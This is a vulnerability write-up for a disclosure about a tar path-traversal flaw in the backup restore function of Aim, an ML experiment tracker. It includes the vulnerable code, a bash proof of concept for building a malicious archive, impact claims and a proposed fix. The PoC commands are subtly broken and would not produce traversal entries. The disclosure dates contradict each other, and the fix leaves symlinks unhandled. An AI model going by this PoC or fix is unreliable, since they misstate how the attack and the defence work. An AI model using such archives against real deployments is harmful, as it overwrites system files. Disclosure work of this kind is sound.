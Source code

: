 ## Write-Up: Critical Arbitrary File Write Vulnerability in Aim (aimhubio/aim) - Path Traversal in restore_run_backup
### CVE-ID: N/A | Disclosure Date: Reported on Feb 5st 2025 | Researcher: spara pentest
***
# Aim: The Open-Source ML Experiment Tracking Powerhouse

Aim is a widely adopted open-source machine learning experiment tracking tool designed to help ML engineers and researchers log, compare, and visualize thousands of experiments. Trusted by organizations ranging from startups to Fortune 500 companies, Aim is critical infrastructure for teams building production-grade ML models. Its ability to restore experiment backups (bcp/ directory) ensures business continuity and reproducibility—a cornerstone of ML workflows.
![alt text](./staes.png)
This vulnerability directly threatens the integrity of Aim’s core functionality, putting ML pipelines, intellectual property, and infrastructure at risk.
***
# Vulnerability Summary
Vulnerability Summary
Severity: Critical (CVSSv3.1: 9.8)
Affected Component: restore_run_backup() in Aim’s backup restoration logic.
Root Cause: Lack of path validation during TAR archive extraction, enabling path traversal attacks.

An attacker with write access to Aim’s backup directory (bcp/) can craft a malicious .tar.gz archive to overwrite arbitrary files on the host system. This flaw allows remote code execution (RCE) in environments where Aim is deployed with elevated privileges (e.g., Kubernetes pods, CI/CD pipelines, or cloud-based ML training clusters).
***
# Technical Deep Dive
## Why This Matters
Aim’s backup restoration feature is designed to recover experiments, hyperparameters, and metadata—assets that often represent months of R&D effort. However, the absence of sanitization in `restore_run_backup()` turns this feature into a weaponizable entry point:
1. Path Traversal via tar.extractall():
    * The function uses tar.extractall() without resolving or validating the destination paths of extracted files. Attackers can embed ../ sequences in filenames to escape the bcp/ directory.
        ```python
            # Vulnerable code snippet
            with tarfile.open(run_bcp_file, 'r:gz') as tar:
                tar.extractall()  # No safe directory specified
        ```
![alt text](./vuln-code.png)

2. Symlink Attacks:
   * Malicious archives can include symlinks pointing to sensitive locations (e.g., `/root/.ssh/authorized_keys`, `/etc/crontab`), enabling privilege escalation or persistence.
# Proof of Concept (PoC)
Step 1: Craft a Malicious Backup
```bash
# Create payload with path traversal and symlink
mkdir payload
echo "malicious_content" > payload/../../../../tmp/hacked.txt
ln -s /etc/passwd payload/../sensitive_symlink

# Package into a .tar.gz
tar -czf malicious_backup.tar.gz -C payload .
```

Step 2: Replace a Legitimate Backup
* If the attacker has write access to bcp/:
```mv malicious_backup.tar.gz /path/to/aim/repo/bcp/<legitimate_run_hash>.tar.gz```
Step 3: Trigger the Exploit
* When an administrator or automated system restores the backup:
![alt text](./explotation.png)

```restore_run_backup(repo, "<legitimate_run_hash>")```
## Result:
* /tmp/hacked.txt is overwritten.
* A symlink to /etc/passwd is created, enabling further attacks.
![alt text](./done.png)

***
# Impact
1. Remote Code Execution (RCE):
* Overwrite scripts or cron jobs (e.g., /etc/cron.daily/backup) to execute attacker-controlled code.

2. Supply Chain Compromise:
* Inject poisoned experiment data into ML models, leading to downstream integrity failures (e.g., biased predictions).

3. Data Exfiltration:
* Extract API keys, credentials, or model weights by overwriting files with sensitive data.

4. Reputation Damage:
* Loss of trust in Aim’s security posture, especially critical for enterprises in regulated industries (healthcare, finance).
***
# Mitigation
### Immediate Fix:
```python
def restore_run_backup(file_path):
    # ... existing code ...
    with tarfile.open(run_bcp_file, 'r:gz') as tar:
        for member in tar.getmembers():
            # Resolve absolute path and block traversal
            abs_dest = os.path.abspath(os.path.join(repo_path, member.name))
            if not abs_dest.startswith(os.path.abspath(repo_path) + os.sep):
                raise ValueError(f"Blocked path traversal: {member.name}")
            tar.extract(member, repo_path)
```
# Best Practices:

* Use tar.extractall(path=safe_directory) to enforce extraction within a sandboxed directory.

* Validate user-controlled input (e.g., backup filenames) using an allowlist.

* Implement digital signatures for backups to prevent tampering.
***
### Why This Matters for the ML Community
Machine learning pipelines are increasingly targeted due to their computational resources and data value. Aim’s role as a centralized experiment tracker makes it a high-value target. This vulnerability highlights the urgent need for security-by-design in ML tools, which often prioritize functionality over safeguards.

# Responsible Disclosure Timeline
* Feb 1st 2025: Vulnerability reported to Aim maintainers
* No Patch made

# References
* CodeQL Query for TAR Slip Vulnerabilities
* MITRE CWE-22: Improper Limitation of a Pathname to a Restricted Directory

# Final Note:
This write-up adheres to the principles of responsible disclosure. Always prioritize the security of open-source tools that power modern ML infrastructure

